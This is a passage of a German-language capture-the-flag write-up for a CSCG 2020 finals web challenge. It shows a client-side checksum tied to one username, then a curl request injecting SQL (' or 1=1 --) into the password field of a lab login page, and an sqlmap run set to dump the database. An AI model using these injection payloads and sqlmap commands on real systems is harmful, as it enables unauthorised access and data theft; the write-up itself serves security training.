 ![bild](index.PNG)

Dort fällt auf, dass in der `custom.js` eine Checksum gesetzt wird, die als hidden Formelement mitgegeben wird. Für andere User ist aber keine Checksum gegeben.
```
function updateChecksum(val) {
if (val == "JohnDoe")
{
    document.getElementById("checksum").value = "3a9d0a";
}
```
Daraus resultiert folgende POST Request an `/login`:
```
username=JohnDoe&password=john123&checksum=3a9d0a
```
Das verändern des Usernamens sorgt für `Invalid Checksum!`, während ein anderes Passwort die Fehlermeldung `Invalid credentials or error!` provoziert. Clever wie die Teilnehmer sind wird direkt eine SQL Injection im Passwort Feld getestet:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ curl -X POST http://192.168.178.75/login --data "username=JohnDoe&password=john123' or 1=1 -- f&checksum=3a9d0a"
<!DOCTYPE html>
<html>
[...]
```
Damit ist man also eingeloggt. Aber man kommt nicht an die Flag des Admins ran. Exfiltration über die Blind SQL Injection schlägt (zumindest bei mir) fehl, sowohl von Hand, als auch über SQLMap:
```
theuser@DESKTOP-IHD33QF:~/main/cscg20-finals/challenges/especially-a-lot-of-fun/solution$ sqlmap -u http://192.168.178.75/login --data "username=JohnDoe&password=john123&checksum=3a9d0a" --ignore-code=401 -p "password" --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 18:56:28
```